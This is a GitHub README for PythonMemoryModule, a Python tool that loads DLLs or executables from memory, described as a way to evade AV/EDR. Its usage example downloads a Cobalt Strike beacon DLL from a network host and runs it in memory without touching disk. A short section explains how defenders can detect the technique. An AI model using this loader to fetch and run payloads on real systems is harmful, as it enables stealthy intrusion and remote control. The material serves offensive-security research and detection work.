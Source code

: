 ![Supported Python versions](https://img.shields.io/badge/python-3.7+-blue.svg) [![Twitter](https://img.shields.io/twitter/follow/naksyn?label=naksyn&style=social)](https://twitter.com/intent/follow?screen_name=naksyn)

# PythonMemoryModule
pure-python implementation of MemoryModule technique to load a dll or unmanaged exe entirely from memory

<p align="center">
<img width="399" alt="immagine" src="https://user-images.githubusercontent.com/59816245/210533889-424707d3-2c82-4ca3-afaf-cc19857fa2d6.png">
<br>
"Python memory module" AI generated pic - hotpot.ai 
</p>



# What is it

PythonMemoryModule is a Python ctypes porting of the [MemoryModule](https://www.joachim-bauch.de/tutorials/loading-a-dll-from-memory/) technique originally published by [Joachim Bauch](https://github.com/fancycode/MemoryModule). It can load a dll or unmanaged exe using Python without requiring the use of an external library (pyd).
It leverages [pefile](https://github.com/erocarrera/pefile) to parse PE headers and ctypes. 

The tool was originally thought to be used as a [Pyramid](https://github.com/naksyn/Pyramid/) module to provide evasion against AV/EDR by loading dll/exe payloads in python.exe entirely from memory, however other use-cases are possible (IP protection, pyds in-memory loading, spinoffs for other stealthier techniques) so I decided to create a dedicated repo.


# Why it can be useful

 1. It basically allows to use the MemoryModule techinque entirely in Python interpreted language, enabling the loading of a dll from a memory buffer using the stock signed python.exe binary without requiring dropping on disk external code/libraries (such as [pymemorymodule](https://pypi.org/project/pymemorymodule/) bindings) that can be flagged by AV/EDRs or can raise user's suspicion. 
 2. Using MemoryModule technique in compiled languages loaders would require to embed MemoryModule code within the loaders themselves. This can be avoided using Python interpreted language and PythonMemoryModule since the code can be executed dynamically and in memory.
 3. you can get some level of Intellectual Property protection by dynamically in-memory downloading, decrypting and loading dlls that should be hidden from prying eyes. Bear in mind that the dlls can be still recovered from memory and reverse-engineered, but at least it would require some more effort by the attacker.
 4. you can load a stageless payload dll without performing injection or shellcode execution. The loading process mimics the LoadLibrary Windows API (which takes a path on disk as input) without actually calling it and operating in memory.

# How to use it

In the following example a Cobalt Strike stageless beacon dll is downloaded (not saved on disk), loaded in memory and started by calling the entrypoint. 

```python
import urllib.request
import ctypes
import pythonmemorymodule
request = urllib.request.Request('http://192.168.1.2/beacon.dll')
result = urllib.request.urlopen(request)
buf=result.read()
dll = pythonmemorymodule.MemoryModule(data=buf, debug=True)
startDll = dll.get_proc_addr('StartW')
assert startDll()
#dll.free_library()
```
Note: if you use staging in your malleable profile the dll would not be able to load with LoadLibrary, hence MemoryModule won't work.

![](MemoryModuleCS.gif)


# How to detect it

Using the MemoryModule technique will mostly respect the sections' permissions of the target DLL and avoid the noisy RWX approach. However within the program memory there will be a private commit not backed by a dll on disk and this is a MemoryModule telltale.



### Future improvements

 1. add support for argument parsing.
 2. add support (basic) for .NET assemblies execution.
